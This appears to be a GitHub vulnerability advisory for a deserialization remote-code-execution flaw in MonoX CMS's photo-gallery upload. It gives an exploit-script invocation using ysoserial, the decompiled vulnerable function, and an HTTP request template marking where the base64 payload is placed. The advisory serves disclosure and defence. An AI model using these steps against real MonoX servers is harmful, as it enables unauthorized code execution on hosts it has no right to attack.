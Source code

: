# Photogallery - Remote Code Execution

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadModule`. The manipulation of the of the **ctl00$ctl00$ctl01$ctl00$cp$cp$wpm$gwpsnPhotoGallery$snPhotoGallery$photoUpload$ctlUpload$handlerResponse** parameter leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit script is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily identified by code inspection. The affected function is the following:

```csharp
//#Kw Decompiled function name
private void #Kw(object sender, EventArgs e)
    {
        if (this.EnableFileGallery && ApplicationSettings.TrustLevel == AspNetHostingPermissionLevel.Unrestricted)
        {
            string[] array = this.handlerResponse.Value.Split(string.Format("{0},", "(SEPARATOR)"));
            foreach (string text in array)
            {
                string s = text.Replace("(SEPARATOR)", string.Empty);
                SnFileDTO snFileDTO = null;
                try
                {
                    snFileDTO = (SnFileDTO)BinarySerializer.Deserialize(Convert.FromBase64String(s));
                }
                catch
                {
                    snFileDTO = null;
                }
                if (snFileDTO != null)
                {
                    this.UploadedFileDTOs.Add(snFileDTO);
                }
            }
            this.handlerResponse.Value = string.Empty;
            this.UploadedFileDTOs = null;
            this.fileGallery.BindData();
        }
        this.OnFilesUploaded(this.EntityId, this.EntityType);
    }

```
This function got called after an image was uploaded in the gallery. Intercepting the traffic with Burp revealed the endpoint. The litmus test was finding a base64 encoded string followed by `(SEPARATOR)`. An example request is following:

<pre>
<code>
POST /MonoX/Pages/SocialNetworking/lng/en-US/PhotoGallery.aspx HTTP/1.1
Host: monox.local
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/71.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: {Stripped}
Content-Length: 5240

ctl00%24ctl00%24ctl01%24ctl00%24cp%24cp%24wpm%24gwpsnPhotoGallery%24snPhotoGall
ery%24photoUpload%24ctlUpload%24handlerResponse=<strong style="color: blue;">{base64-enc-payload}</strong><strong style="color: red;">(SEPARATOR)</strong>
&ctl00_ctl00_ctl01_ctl00_cp_cp_wpm_gwpsnPhotoGallery_snPhotoGallery_photoUpload
_ctlUpload_fileGallery_wndManager_ClientState=&ctl00_ctl00_ctl01_ctl00_editorSo
urceWindowManager_ClientState=&__VIEWSTATE_WAOKEY=&__VIEWSTATE=&__SCROLLPOSITIO
NX=0&__SCROLLPOSITIONY=0&__ASYNCPOST=true&ctl00%24ctl00%24ctl01%24ctl00%24cp%24
cp%24wpm%24gwpsnPhotoGallery%24snPhotoGallery%24photoUpload%24ctlUpload%24btnPo
stback=
</code>
</pre>

With these information, it was fairly easy to trigger an RCE via deserialization crafting a payload with **ysoserial.net**.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)